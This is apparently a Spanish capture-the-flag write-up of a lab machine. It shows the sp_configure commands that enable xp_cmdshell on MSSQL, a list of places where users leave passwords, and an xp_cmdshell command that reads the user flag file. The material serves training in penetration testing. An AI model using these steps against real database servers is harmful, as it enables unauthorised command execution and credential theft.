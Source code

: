 ## ⚙️ Activación de xp_cmdshell

Se habilita `xp_cmdshell` para ejecutar comandos del sistema desde MSSQL:

```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

![](../img/6b787957d5056fae958ecb994eff5bd2.png)

🔧 Ahora podemos ejecutar comandos del sistema Windows desde SQL Server.

Una vez que **ejecutamos comandos en el sistema a través de `xp_cmdshell`**, el siguiente paso es **buscar información sensible**. Lo más valioso: contraseñas.

Como no podemos navegar con `ls` o `explorer`, pensamos como un atacante:

**Usuarios suelen guardar contraseñas en:**
    
    - Archivos `.txt`, `.ini`, `.config` en sus escritorios o documentos.
        
    - Scripts `.ps1`, `.bat`, `.vbs` usados en tareas automatizadas.
        
    - 🟩 **Historial de comandos escritos en PowerShell (como si fuera el `.bash_history` de Linux)**.


En esta tarea, dentro del servidor de SQL con el user, buscamos la flag:


![](../img/212d00a063a3cf3829c5e915a77705e7.png)

## 🧪 Ejecución de comandos y búsqueda de la user flag

```bash
EXEC xp_cmdshell 'type C:\\Users\\sql_svc\\Desktop\\user.txt';
```

![](../img/ff10599eb048b2f27581b4dfd8a62c67.png)
